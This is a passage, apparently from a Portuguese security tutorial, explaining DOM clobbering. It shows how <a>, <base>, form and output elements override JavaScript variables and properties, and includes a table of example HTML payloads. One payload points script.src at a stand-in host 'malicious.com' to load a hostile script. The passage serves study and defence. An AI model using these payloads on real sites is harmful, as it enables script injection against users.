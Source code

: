 Simplesmente sobrescrever uma variável com um elemento do DOM muitas vezes não é suficiente. O código-alvo pode esperar um tipo de dado específico (como uma *string* ou um número) ou um valor específico.

#### O Problema da Conversão para String (`toString()`)

Um dos maiores obstáculos para os invasores é que a maioria dos elementos do DOM, quando usada em um contexto que exige uma *string* (por exemplo, atribuindo a `element.src`), é convertida para a *string* literal `[object HTML...Element]` ou similar. Este valor é geralmente inútil para um ataque que precisa fornecer uma URL ou outro valor de *string* controlável.

#### A Solução: Tags `<a>` e `<base>`

Felizmente para os invasores (e infelizmente para os desenvolvedores), existem duas exceções notáveis a essa regra: as tags `<a>` (âncora) e `<base>`. Quando um objeto representando um desses elementos é convertido para uma *string*, o navegador não retorna `[object HTML...Element]`. Em vez disso, ele retorna o valor processado do atributo `href` do elemento. Isso concede ao invasor controle total sobre o valor da *string* que será usada pelo código vulnerável.

Por exemplo, no ataque de *clobbering* de `script.src` mencionado anteriormente, o uso de uma tag `<a>` com um atributo `href` é o que torna o ataque viável:

```html
<a id="config" href="https://malicious.com/script.js"></a>
```

Quando o código executa `script.src = config`, o objeto `<a>` é convertido para *string*, resultando na URL maliciosa.

#### Controlando Propriedades Específicas

Em cenários onde o código-alvo acessa uma propriedade específica de um objeto, como `.value`, o invasor deve escolher a tag HTML apropriada. As tags `<input>`, `<output>` e `<textarea>` são ideais para isso, pois seus valores podem ser definidos diretamente no HTML através do atributo `value`.

Por exemplo, para *clobber* `options.value`, o *payload* seria:

```html
<form id="options">
  <output name="value">Conteúdo Sobrescrito</output>
</form>
```

Quando o código acessar `options.value`, ele receberá a *string* "Conteúdo Sobrescrito".

**Tabela: Técnicas de DOM Clobbering**

| Técnica | Payload de Exemplo | Profundidade Máxima | Tags/Atributos Chave | Notas / Caso de Uso Ideal |
|---------|--------------------|---------------------|----------------------|---------------------------|
| Clobbering de Nível Único | `<a id="globalVar" href="valor_controlado"></a>` | 1 | `id`, `a`, `href` | Ideal para sobrescrever uma variável global simples que é usada como uma *string* (ex: URL). |
| Hierarquia de `<form>` | `<form id="obj"><input name="prop" value="valor"></form>` | 2 | `form`, `input`, `id`, `name`, `value` | Ideal para sobrescrever uma propriedade de um objeto (`obj.prop`), especialmente quando a propriedade `.value` é acessada. |
| HTMLCollection | `<a id="obj"></a><a id="obj" name="prop" href="valor"></a>` | 2 | `id` (duplicado), `name`, `a`, `href` | Técnica versátil para sobrescrever `obj.prop`. Particularmente útil quando a propriedade precisa ser uma *string* controlável. |
| Combinação de Técnicas | `<form id="x"></form><form id="x" name="y"><input name="z"></form>` | 3 | `form`, `input`, `id` (duplicado), `name` | Permite atingir profundidades maiores (`x.y.z`), necessário para explorar lógicas de aplicação mais complexas. |
| Aninhamento de `<iframe>` | `<iframe name="level1" srcdoc="<a id=level2></a>"></iframe>` | N | `iframe`, `name`, `srcdoc` | Tecnicamente permite profundidade infinita (`level1.level2...`), mas é complexo de construir e pode ser limitado pelo navegador. |
